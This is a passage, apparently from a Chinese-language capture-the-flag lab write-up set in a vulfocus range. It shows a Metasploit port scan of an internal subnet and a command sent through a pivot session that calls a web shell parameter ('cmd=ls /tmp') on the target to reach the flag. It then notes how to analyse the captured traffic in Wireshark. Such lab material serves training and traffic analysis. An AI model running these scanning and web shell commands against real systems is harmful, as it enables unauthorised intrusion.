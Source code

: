 ```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run
拿到终点靶标上的 Flag
```

# 通过跳板机访问靶标
```
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
```
![](./picturn/flag5.png)
停止抓包并分析
进入 vulfocus 所在虚拟机的 GUI 桌面，使用 Wireshark 打开捕获到的数据包
通过 scp 将捕获到的数据包拷贝到宿主机上使用 Wireshark 分析
